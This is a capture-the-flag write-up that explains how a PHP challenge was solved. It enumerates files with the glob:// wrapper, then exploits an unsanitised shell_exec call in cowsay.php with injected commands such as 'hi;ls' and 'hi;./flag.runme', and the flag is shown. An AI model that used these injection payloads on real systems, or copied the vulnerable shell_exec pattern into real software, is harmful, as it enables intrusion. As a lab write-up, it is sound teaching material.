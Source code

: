 # globglogabgalab 1

## Write-up

### 1. Filename enumeration

- Upon opening the website we can read the source code of the PHP script :

```php
<?php

error_reporting(0);

$output = null;

if (isset($_GET['dir'])) {
  $files = scandir($_GET['dir']);
  $output = ($files === false) ? "Error" : count($files)." files";
} else {
  highlight_file(__FILE__);
  exit;
}

?>

<!DOCTYPE html>
<html>
  <head>
    <title>Globglogabgalab</title>
  </head>
  <body>
    <p><?= htmlspecialchars($output) ?></p>
  </body>
</html>
```

- Basically the script expects a `dir` GET parameter that represents a directory, and returns the number of files in that directory

- For example, passing `.` as a directory returns "5 files", which means that the current directory contains 5 files (including `.` and `..`)

- But how can enumerate those files ? The answer is : [PHP wrappers](https://www.php.net/manual/en/wrappers.php)

- In our case, the most interesting wrapper is `glob://`, as it allows finding pathnames that match a pattern

- For example, by setting `dir` to `glob://*.php` to find all PHP files in current directory, the result returned is "2 files"

- In order to find all files in a certain directory, I wrote [this script here](brute.py)

- After running the script on the current directory `.`, we find 3 files : `index.php`, `cowsay.php`, `flag.runme`

- If we try to browse to `/flag.runme` we get a 403 forbidden error, which probably means that the file has execute permission only and we're supposed to run it after getting RCE

### 2. Getting RCE

- After browsing to `/cowsay.php` we can also read the source code of the script :

```php
<?php

error_reporting(0);

$output = null;

if (isset($_GET['message']) && is_string($_GET['message'])) {
  $cowacter = (isset($_GET['cowacter']) && is_string($_GET['cowacter'])) ? $_GET['cowacter'] : "default";
  $message = $_GET['message'];

  $output = shell_exec("/usr/games/cowsay -f ${cowacter} ${message}");
} else {
  highlight_file(__FILE__);
  exit;
}

?>

<!DOCTYPE html>
<html>
  <head>
    <title>Globglogabgalab</title>
  </head>
  <body>
    <pre><?= htmlspecialchars($output) ?></pre>
  </body>
</html>
```

- This line is the most interesting :

```php
<?php
// ...
$output = shell_exec("/usr/games/cowsay -f ${cowacter} ${message}");
// ...
?>
```

- Since we have total control over `cowacter` and `message` parameters, we can basically inject arbitrary commands

- By passing `cowacter=default` and `message=hi;ls`, we're able to execute the `ls` command :

```txt
 ____
< hi >
 ----
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
cowsay.php
flag.runme
index.php
```

- Let's execute `flag.runme` now, with `cowacter=default` and `message=hi;./flag.runme` :

```txt
 ____
< hi >
 ----
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
shellmates{sHw4BbLE_daBblE_gl1Bbl3_GLaBbL3_SChr1bBLE_$HW4P_GlAB}
```

## Flag

`shellmates{sHw4BbLE_daBblE_gl1Bbl3_GLaBbL3_SChr1bBLE_$HW4P_GlAB}`
